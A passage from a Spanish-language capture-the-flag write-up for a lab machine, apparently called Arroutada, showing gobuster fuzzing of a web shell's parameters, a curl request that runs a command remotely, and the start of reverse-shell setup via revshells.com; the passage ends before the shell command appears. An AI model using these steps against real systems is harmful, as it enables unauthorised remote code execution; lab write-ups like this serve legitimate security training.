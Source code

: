 Nos lanza un error, falta un segundo parámetro, volvemos a hacer fuzzing esta vez sobre el parámetro que falta.

```zsh
gobuster fuzz -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 -u "192.168.0.249/thejabasshell.php?a=pwd&b=FUZZ" --exclude-length 33,301
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:              http://192.168.0.249/thejabasshell.php?a=pwd&b=FUZZ
[+] Method:           GET
[+] Threads:          200
[+] Wordlist:         /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Exclude Length:   33,301
[+] User Agent:       gobuster/3.1.0
[+] Timeout:          10s
===============================================================
2023/11/04 23:49:36 Starting gobuster in fuzzing mode
===============================================================
Found: [Status=200] [Length=14] http://192.168.0.249/thejabasshell.php?a=pwd&b=pass
```

Encontramos el segundo parámetro `b=pass`, volvemos a intentar hacer el curl.

```zsh
curl 'http://192.168.0.249/thejabasshell.php?a=pwd&b=pass'
```
![](/assets/img/posts/arroutada/pwd.png)

Nos ejecuta el comando pwd con éxito, es decir, es vulnerable a una ejecución de código remota, vamos a montarnos una rever shell.

Para hacer la rever shell nos ayudaremos de la herramienta https://www.revshells.com/ ya que nos da la posibilidad de codificar la revshell en formato URL.

Dentro de la página añadimos nuestra IP y el puerto que queremos usar para la revshell.

![](/assets/img/posts/arroutada/revip.png)
